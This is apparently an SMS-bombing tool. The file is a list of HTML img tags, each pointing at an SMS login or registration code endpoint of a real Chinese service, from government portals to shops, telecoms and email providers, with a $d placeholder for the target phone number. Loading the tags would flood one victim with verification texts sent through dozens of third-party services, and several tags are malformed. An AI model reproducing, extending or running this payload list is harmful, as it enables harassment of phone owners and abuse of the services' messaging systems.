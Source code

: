 <img src='https://appapi-h5.yongche.com/Common/CreateAuthCode?cellphone=$d' alt=''/>
<img src='https://www.youcash.com/wechat-web/userLogin/sendnote?phone=$d' alt=''/>&smsType=0
<img src='https://services.qiye.163.com/service/official/sendCode?jsonpcallback=jQuery190039810459070645865_1584688891341&mobile=$d' alt=''/>&_=1584688891342
<img src='http://api.passport.pptv.com/snsms/sendcode?cb=msSendCode&phoneNumber=$d' alt=''/>&deviceId=p_1584518586025_48072460278550296&terminal=PC&channel=208000103005&uuid=0e2a64ae-e07e-49d6-852e-3de883df8003&imgCode=&format=jsonp&_=1584518959802
<img src='https://puser.hnzwfw.gov.cn:8081/api/user/sms?mobile=$d' alt=''/>&_=1575815921608
<img src='https://m.mgqr.com:443/ajax/getcode.ashx?check=0&t=1586567002298&phone=$d' alt=''/>
<img src='https://wapi.jfh6688.cn/sendRegisterCode?type=1&login=$d' alt=''/>
<img src='https://passport.fanhuan.com/login/asklogincode?callback=jQuery183041957833420943325_1584502778631&mobile=$d' alt=''/>&_=1584502793693
<img src='https://register.7moor.com/Action?callback=jQuery17202579936653179218_1584495041683&action=register.rl7mWebSiteYZMWebCallTryMobileCode&data=%7B%22mobile%22%3A%22$d' alt=''/>%22%7D&_=1584495050906
<img src='https://jdapi.jd100.com/uc/v1/getSMSCode?account=$d' alt=''/>&sign_type=1&use_type=1
<img src='https://register.7moor.com/Action?callback=jQuery17208585139394580638_1584431746146&action=register.rl7mWebSiteYZMWebCallTryMobileCode&data=%7B%22mobile%22%3A%22$d' alt=''/>%22%7D&_=1584431770018
<img src='https://www.guiji.ai/market/sms?mobile=$d' alt=''/>
<img src='http://ptlogin.4399.com/ptlogin/sendPhoneLoginCode.do?phone=$d' alt=''/>
<img src='http://if.center:80/phone-send-sms-code?phone=$d' alt=''/>
<img src='http://mobile.health.pingan.com/ehis-hl/ajax/sendOTP.action?smscc=ehiswxonly&phone=$d' alt=''/>
<img src='http://api.passport.pptv.com/checkImageCodeAndSendMsg?&scene=REG_PPTV_APP&deviceId=867830021000533&aliasName=$d' alt=''/>
<img src='http://reg.suning.com/ajax/code/sms.do?scen=WAP_WCHAT_PUB_ACCT_UNION_LOGIN_MOBILE_REG&phoneNum=$d' alt=''/>
<img src='http://m.tk.cn/tkmobile/orderSentSmsServlet?mobile=$d' alt=''/>
<img src='https://api.taoelement.vip/account/sms/sms/captcha/$d' alt=''/>/mineTker
<img src='http://user.daojia.com/mobile/getcode?mobile=$d' alt=''/>
<img src='https://api.sharkshopping.com/ec/api?method=b2c.member2.related_sms&uname=$d' alt=''/>&type=1
<img src='http://www.baixing.com/oz/verify/reg?mobile=$d' alt=''/>
<img src='https://wap.fruitday.com//v3/passport/send_vercode?mobile=$d' alt=''/>
<img src='https://m.mgqr.com/ajax/getcode.ashx?check=0&t=1586567002298&phone=$d' alt=''/>
<img src='https://m.51rz.com/apiApp/sendLoginVode.html.html_?loginfrom=wap&mobile=$d' alt=''/>
<img src='http://www.zhiguker.com/index/user/regYzm?phone=$d' alt=''/>
<img src='https://api.julym.com/hz/api.html?number=$d' alt=''/>
<img src='http://211.156.201.12:8088/youzheng//ems/security?phone=$d' alt=''/>
<img src='http://api.moonreader.cn/mreader/common/sendMobile.do?mobile=$d' alt=''/>
<img src='http://www.zuoyebang.com:80/session/pc/sendtoken?ajax&phone=$d' alt=''/>&sendType=1&tokenType=6&_t_=1573784070671&os=pcweb&appId=homework&channel=&plat=wap&cType=pc&fr=&lastfrom=&name=JC_C2_3_20100
<img src='http://k.ydhz.xyz/api.php?act=user&key=LT1k6K0kl6m6KH6ZK6&phone=$d' alt=''/>
<img src='http://ydhz.xyz/index.php?hm=$d' alt=''/>
<img src='http://yunrg3866.xahost.yunrg.com/api.php?act=user&key=hz&phone=$d' alt=''/>
<img src='http://www.709088000.top/api.php?act=user&key=5E3DSmoFEEvDEJWpiz&phone=$d' alt=''/>
<img src='http://mobile.health.pingan.com/ehis-hl/ajax/sendOTP.action?smscc=ehiswxonly&phone=$d' alt=''/>
<img src='http://exmail.qq.com:80/cgi-bin/bizmail_portal?action=send_sms&type=11&t=biz_rf_portal_mgr&ef=jsnew&resp_charset=UTF8&area=86&mobile=$d' alt=''/>
<img src='http://uac.10010.com:80/oauth2/OpSms?callback=jsonp1557631709566&req_time=&user_id=$d' alt=''/>
<img src='http://api.wangxiao.cn:80/app/user.ashx?mobile=$d' alt=''/>&t=mobilelogincode
<img src='http://vip.haier.com:80/vipCode/user/sendMobileCode?sendType=codeLogin1&domainName=Haier&mobile=$d' alt=''/>